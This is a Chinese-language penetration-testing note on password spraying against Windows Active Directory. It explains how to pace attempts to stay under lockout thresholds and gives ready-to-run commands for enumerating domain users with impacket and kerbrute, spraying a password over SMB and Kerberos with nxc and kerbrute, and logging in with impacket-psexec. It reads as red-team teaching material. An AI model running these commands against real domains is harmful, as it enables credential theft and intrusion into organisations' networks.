





# Password-Spraying

## 0x 01 原理
### 1.1 什么是Password-Spraying
Password-Spraying（密码喷洒）指的是在已知一个或一组密码的情况下，使用密码去爆破用户名，通常情况下，系统会对同一个用户名进行封锁，而不会对同一个密码进行封锁措施。
密码喷洒和密码爆破区别：
```
密码爆破 (Brute-Force):
  1个用户 × 1000个密码 = 1000次失败 → 账户锁定 ❌

密码喷洒 (Password Spraying):
  100个用户 × 1个密码 = 每个用户只失败1次 → 不锁 ✅
```

## 0x 02 喷洒策略
### 2.1 锁定阈值与节奏
Windows 域默认锁定阈值为 **5 次失败 → 锁 30 分钟**，失败计数器 30 分钟后自动清零。

|策略|做法|每小时可试密码数|
|---|---|---|
|保守|每 32 分钟喷 1 次，每个账户最多试 1 次|~2|
|常规|每 32 分钟喷 1 次，每个账户最多试 2 次|~4|
|激进|每 62 分钟喷 1 次，每个账户最多试 4 次|~4|

了解系统的封锁策略，有助于制定或者编写方案进行枚举爆破。

### 2.2 先枚举在喷洒
在进行密码枚举之前，需要尽可能的利用目前已有信息进行枚举存在用户名或者高命中率的用户。
同一套系统，一般说来，其用户名都是高度一致或者高度相似，在枚举出存在用户之后，可以进一步对存在用户名进行构造字典对其他接口或者服务进行爆破，喷洒。

## 0x 03 常见内网利用方式
### 3.1 枚举用户名
利用已知的域用户枚举所有域账户
```
impacket-GetADUsers corp.local/alice:P@ssw0rd1 -dc-ip 192.168.127.10 -all
```

使用kerbrute进行爆破枚举：
```
kerbrute userenum -d corp.local --dc 192.168.127.10 /usr/share/seclists/Usernames/Names/names.txt
```

### 3.2 使用nxc进行喷洒
已知单一密码对用户列表喷洒：
```bash
nxc smb 192.168.127.10 -u domain_users.txt -p 'P@ssw0rd1' --continue-on-success
```

成功后，可直接使用impacket-psexec进行登录、横向。
```
impacket-psexec corp.local/alice:'P@ssw0rd1'@192.168.127.10
```

注：这里alice用户没有网络登录权限，但已经是认证成功了。

指定网段进行喷洒：
```
nxc smb 192.168.127.0/24 -u domain_users.txt -p 'Summer2025!' --continue-on-success
```
### 3.3 使用kerbrute进行喷洒
已知单一密码对用户列表喷洒：
```bash
kerbrute passwordspray -d corp.local --dc 192.168.127.10 domain_users.txt 'P@ssw0rd1'
```



## 工具集合
* [kerbrute](https://github.com/ropnop/kerbrute)